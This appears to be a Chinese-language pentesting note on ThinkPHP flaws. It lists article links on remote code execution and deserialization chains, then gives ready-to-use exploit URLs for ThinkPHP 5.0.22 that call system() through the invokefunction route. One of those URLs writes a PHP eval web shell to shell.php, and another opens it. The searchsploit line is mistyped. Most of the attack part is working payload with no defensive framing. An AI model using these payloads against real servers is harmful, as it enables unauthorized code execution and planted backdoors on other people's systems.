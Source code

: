 [ThinkPHP框架漏洞总结+Thinkphp自动化武器](https://mp.weixin.qq.com/s/OWmFjra3oZfth0rifK-kYg)
[Thinkphp多语言漏洞自检工具 -- ThinkPhp6LangRce](https://mp.weixin.qq.com/s/a7Zo1GJpJuFGQR2t9m74Zw)
[ThinkPHP 3.1.3 | 某外汇常用CMS通用未授权RCE](https://mp.weixin.qq.com/s/SJ-rCRIkqT3COP9jdKBY_g)
[ThinkPHP远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247485017&idx=1&sn=82730143a26bfb4eeec1d9daa6671d17)
[ThinkPHP 6.x反序列化POP链（一）](http://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247484192&idx=3&sn=1d97d5acb16026cdd2e0600bf3151c2f)
[Thinkphp6-Lang-rce](https://mp.weixin.qq.com/s/7SlTUoeYAtqNhlInz7BGRg)
[ThinkPHP-Lang v6.0.0~v6.0.13 v5.0.0~5.0.12 v5.1.0~5.1.8 Lang文件包含To远程代码执行漏洞复现—CNVD-2022-86535](https://mp.weixin.qq.com/s/8eeQO-3kAtKKTW5H13aabQ)
msf > searchsploit thinkphpk

## 根目录

在 /var/www/html/public

## 5.0.22

```shell
http://192.168.138.136/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo "<?php @eval($_POST[whoami]);?>" > shell.php
http://192.168.138.136/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=dir
http://192.168.138.136/shell.php
```
